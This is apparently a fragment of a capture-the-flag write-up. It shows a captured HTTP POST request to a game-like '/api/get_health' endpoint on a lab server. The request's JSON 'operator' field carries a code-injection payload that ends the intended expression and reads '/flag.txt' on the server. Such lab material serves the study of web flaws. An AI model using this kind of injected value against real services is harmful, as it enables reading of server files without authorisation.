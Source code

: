 POST /api/get_health HTTP/1.1
Host: 139.59.163.71:32015
Content-Length: 89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://139.59.163.71:32015
Referer: http://139.59.163.71:32015/
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"current_health":"0","attack_power":"32","operator":";result=open('/flag.txt').read()#"}